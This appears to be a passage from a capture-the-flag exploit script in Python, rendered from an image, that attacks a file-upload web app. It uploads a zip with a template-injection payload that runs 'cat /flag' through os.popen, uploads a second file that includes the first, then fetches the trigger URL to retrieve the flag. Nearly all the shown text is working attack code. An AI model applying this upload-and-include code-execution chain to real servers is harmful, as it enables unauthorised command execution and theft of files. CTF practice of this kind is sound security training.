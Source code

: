 ```python
    return zip_path

def upload_and_get_md5(zip_path):
    """Helper function to upload a zip and parse the MD5 from the response."""
    try:
        with open(zip_path, 'rb') as f:
            files = {'file': (os.path.basename(zip_path), f, 'application/zip')}
            response = requests.post(f"{TARGET_URL}/upload", files=files)
        
        if response.status_code != 200:
            print(f"[!] Upload failed for {zip_path}, status code: {response.status_code}")
            return None
            
        match = re.search(r'/view/([a-f0-9]{32})/', response.text)
        if not match:
            print(f"[!] Could not parse MD5 from the response for {zip_path}!")
            print(f"    Raw Response: {response.text}")
            return None
        
        return match.group(1)
    except requests.exceptions.RequestException as e:
        print(f"[!] Network error during upload of {zip_path}: {e}")
        return None

# --- Attack Flow ---

# 1. First Upload: The malicious payload
print("[*] Step 1: Preparing and uploading the malicious payload file...")
payload_filename = "payload.txt"
payload_content = "{{__import__('os').popen('cat /flag').read()}}"
payload_zip_path = create_zip(payload_filename, payload_content)
print(f"[+] Payload ZIP '{payload_zip_path}' created.")

md5_payload = upload_and_get_md5(payload_zip_path)
if not md5_payload:
    sys.exit(1)
print(f"[+] Malicious payload uploaded successfully. MD5: {md5_payload}")

# 2. Second Upload: The trigger file
print("\n[*] Step 2: Constructing and uploading the trigger file...")
trigger_filename = "trigger.txt"

trigger_content = f"%include('uploads/{md5_payload}/{payload_filename}')"
# ==========================================================================
print(f"[+] Trigger content will be: {trigger_content}")

trigger_zip_path = create_zip(trigger_filename, trigger_content)
print(f"[+] Trigger ZIP '{trigger_zip_path}' created.")

md5_trigger = upload_and_get_md5(trigger_zip_path)
if not md5_trigger:
    sys.exit(1)
print(f"[+] Trigger file uploaded successfully. MD5: {md5_trigger}")

print("\n[*] Step 3: Accessing the trigger URL to retrieve the flag...")
flag_url = f"{TARGET_URL}/view/{md5_trigger}/{trigger_filename}"
print(f"[+] Final request URL: {flag_url}")

try:
    flag_response = requests.get(flag_url)
    if flag_response.status_code == 200 and "Error" not in flag_response.text:
        print("\n" + "="*40)
        print("🎉 Flag Retrieved Successfully! 🎉")
```